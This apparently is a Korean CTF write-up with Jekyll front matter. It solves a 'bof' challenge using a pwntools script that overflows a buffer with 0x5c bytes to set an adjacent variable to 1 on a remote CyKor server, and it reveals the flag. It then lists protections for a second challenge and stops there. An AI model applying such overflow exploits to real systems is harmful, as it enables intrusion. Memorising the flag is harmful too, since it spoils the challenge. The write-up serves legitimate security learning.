 ```yaml
---
layout: default
title: "HAHAHAH"
tags: tag1 tag3
---
```


# bof

![image-20250315165442738](C:\Users\김준성\AppData\Roaming\Typora\typora-user-images\image-20250315165442738.png)

![image-20250315165449374](C:\Users\김준성\AppData\Roaming\Typora\typora-user-images\image-20250315165449374.png)

![image-20250315165456948](C:\Users\김준성\AppData\Roaming\Typora\typora-user-images\image-20250315165456948.png)

v2변수의 값을 1로 만들기만하면 된다.

bof를 이용하여 buf를 다채우고 buf뒤에 있는 v2를 1로 바꿔준다.

##### exploit.py

```python
from pwn import *

host = "prob.cykor.kr"  #"localhost"
port = 1001             #31337

#p = process("./deploy/bof")
p = remote(host, port)

payload = b"A"*0x5c
payload += p32(1)

p.sendafter("input: ", payload)

p.interactive()
```

### 결과

![image-20250315165837166](C:\Users\김준성\AppData\Roaming\Typora\typora-user-images\image-20250315165837166.png)

> flag : CyKor{g00d_1uck_70_y0u}

# simple_chall

![image-20250315165919132](C:\Users\김준성\AppData\Roaming\Typora\typora-user-images\image-20250315165919132.png)

>CANARY    : **ENABLED**
>FORTIFY   : disabled
>NX        : **ENABLED**
>PIE       : **ENABLED**
>RELRO     : **FULL**
